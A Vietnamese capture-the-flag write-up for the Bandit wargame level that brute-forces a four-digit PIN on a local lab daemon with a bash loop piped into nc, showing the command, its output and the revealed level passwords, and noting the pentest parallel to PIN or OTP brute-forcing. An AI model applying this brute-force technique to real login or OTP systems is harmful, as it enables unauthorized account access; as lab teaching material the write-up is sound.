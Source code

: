 ### **Mục tiêu**

- Vào localhost cổng 30002 nhập mật khẩu bandit24 và pincode gồm 4 chữ số thì sẽ trả về mật khẩu bandit25.
- Có 10000 con số để thử, ưu tiên `brute-forcing`

---

### **Cách tiếp cận**

- "Có Daemon đang lắng nghe để trả dữ liệu", nên ta dùng lệnh `nc`:

	`nc localhost 30002`

- Nhưng nếu như vậy thì chỉ nhập xuất được trong số lần nhất định, không tối ưu đến 10000 cách thử. Vì thế ta dùng:

	`for i in {0000..9999}; do echo "pass_bandit24 $i"; done | nc localhost 30002 | grep -v "Wrong!"`

=> Để thử, tìm và lọc ra dòng chính xác ("Correct!")

### **Các lệnh đã dùng**

```
# Kết nối và thử mật khẩu tự động (trâu)
for i in {0000..9999}; do echo "pass_bandit24 $i"; done | nc localhost 30002 | grep -v "Wrong!"
```

### **Kết quả**

```
bandit24@bandit:~$ for i in {0000..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002 | grep -v "Wrong!"
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

Mật khẩu cho level tiếp theo là:

`iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`

---

### **Nhận xét**

- Là mô hình thực tế trong pentest khi gặp **PIN-based authentication** hoặc **OTP bruteforce**.